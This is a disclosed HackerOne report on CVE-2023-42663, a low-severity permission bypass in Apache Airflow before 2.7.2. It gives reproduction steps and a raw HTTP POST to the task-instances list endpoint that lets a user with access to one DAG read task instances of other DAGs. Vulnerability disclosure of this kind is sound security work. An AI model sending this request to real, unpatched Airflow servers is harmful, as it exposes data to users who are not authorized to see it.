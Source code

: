 # CVE-2023-42663: Apache Airflow: Bypass permission verification to view task instances of other dags

## Report Details
- **Report ID**: 2208656
- **URL**: https://hackerone.com/reports/2208656
- **State**: Closed
- **Severity**: low
- **Submitted**: 2023-10-13T16:50:36.268Z
- **Disclosed**: 2023-11-13T03:15:20.052Z

## Reporter
- **Username**: balis0ng
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Apache Airflow, versions before 2.7.2, has a vulnerability that allows an authorized user who has access to read specific DAGs only, to read information about task instances in other DAGs.

#Steps to reproduce :
1. Copy a User role, name it roleA, and remove the "can read on DAGs" "can delete on DAGs" "can edit on DAGs" permissions.Add "can read on DAG:tutorial" permissions
{F2771458}

2. Create a user named test and assign RoleA to it.
{F2771447}

3. Log in to the test account, we can only see the DAG named tutorial.Can't see task instances from other DAGs either.
{F2771449}
{F2771451}

4. Use burpsuite to send the following message, and you can see the task instances of other DAGs. (replaced with the session of the test account)
```
POST /api/v1/dags/~/dagRuns/~/taskInstances/list HTTP/1.1
Host: testvul.com:8080
Accept: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
content-type: application/json
Referer: http://testvul.com:8080/dags/example_external_task_marker_parent/grid
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: session=3d17f3fe-e02b-4f16-88f1-fd59e299ae0c.a4kyHK7of13T0NtbCVVmPgFtSDU
Connection: close
Content-Length: 2

{}
```

{F2771461}


**Security Advisory**: https://lists.apache.org/thread/xj86cvfkxgd0cyqfmz6mh1bsfc61c6o9
**Severity**: Low
**Credit**: balis0ng

## Impact

It allows an authorized user who has access to read specific DAGs only, to read information about task instances in other DAGs.

## Attachments
- 6.png
- 7.png
- 8.png
- 5.png
- 9.png
